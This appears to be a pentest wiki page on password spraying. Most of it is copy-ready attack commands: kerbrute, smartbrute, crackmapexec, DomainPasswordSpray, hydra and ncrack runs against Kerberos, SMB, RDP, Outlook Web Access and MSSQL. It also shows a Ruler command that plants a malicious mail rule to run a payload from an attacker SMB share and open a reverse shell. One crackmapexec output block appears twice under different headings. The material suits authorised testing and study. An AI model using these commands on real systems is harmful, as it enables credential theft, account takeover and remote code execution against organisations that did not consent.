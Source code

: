 ```yaml
---
description: >-
  Password spraying refers to the attack method that takes a large number of
  usernames and loops them with a single password.
---
```


# Password spraying

{% hint style="info" %}
The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.
{% endhint %}

## <mark style="color:red;">**Kerberos pre-auth bruteforcing**</mark>

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication".

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from his password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called [pass-the-key](https://www.thehacker.recipes/ad-ds/movement/kerberos/pass-the-key).

Sometimes, the pre-authentication is disabled on some accounts. The attacker can then obtain information encrypted with the account's key. While the obtained TGT cannot be used since it's encrypted with a key the attacker has no knowledge of, the encrypted information can be used to bruteforce the account's password. This is called [ASREProast](https://www.thehacker.recipes/ad-ds/movement/kerberos/asreproast).

Last but not least, the pre-authentication step can be bruteforced. This type of [credential bruteforcing](https://www.thehacker.recipes/ad-ds/movement/credentials/bruteforcing) is way faster and stealthier than other bruteforcing methods relying on NTLM. Pre-authentication bruteforcing can even be faster by using UDP as the transport protocol, hence requiring less frames to be sent.

{% hint style="info" %}
Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.
{% endhint %}

{% embed url="https://github.com/ropnop/kerbrute" %}

### <mark style="color:orange;">Username bruteforce</mark>

```
 ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
```

### <mark style="color:orange;">Password bruteforce</mark>

```
./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
```

### <mark style="color:orange;">Password spray</mark>

```
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
```

[smartbrute](https://github.com/ShutdownRepo/smartbrute) (Python) can be used to bruteforce credentials through the Kerberos pre-authentication. The smartbrute utility can be used in a `brute` mode (standard bruteforcing features) or in a `smart` mode (requires prior knowledge of a low-priv user credentials, but operates LDAP enumeration and avoid locking out accounts, fetches the users list and so on).

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN
​
# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos
```

### **​​**<mark style="color:orange;">**Spray a pre-generated passwords list**</mark>

Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.

```
crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
```

Using `DomainPasswordSpray` to spray a password against all users of a domain.

```
# https://github.com/dafthack/DomainPasswordSpray
Invoke-DomainPasswordSpray -Password Summer2021!
# /!\ be careful with the account lockout !
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

Using `SMBAutoBrute`.

```
Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
```

## <mark style="color:red;">**RDP**</mark>

Using RDPassSpray to target RDP services.

```
git clone https://github.com/xFreed0m/RDPassSpray
python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
```

Using hydra and ncrack to target RDP services.

```
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
```

## <mark style="color:red;">SMB</mark>

```
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

## <mark style="color:red;">Outlook Web Access</mark>

password spray against an Exchange 2016 server in a offense.local domain:

```
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```

if you are attempting to replicate this technique in your own labs, you may need to update your /etc/hosts to point to your Exchange server.

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage Ruler to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

validate the compromised credentials are working by checking if there are any email rules created already:

```
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](<../../.gitbook/assets/image (6).png>)

### <mark style="color:orange;">Get a Shell with Malicious Rules</mark>

we can use this technique to get a reverse shell:

```
#payload path:
/root/tools/evilm64.exe

# smb share and server:
smbserver.py tools /root/tools/

# setup your listener and run ruler to create a malicious email rule:
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```

If you want to delete the malicious email rule, do this:

```
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```

## <mark style="color:red;">MSSQL</mark>

```
use admin/mssql/mssql_enum_sql_logins
```

### <mark style="color:red;">**BadPwdCount attribute**</mark>

{% hint style="info" %}
The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.
{% endhint %}

```
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

***
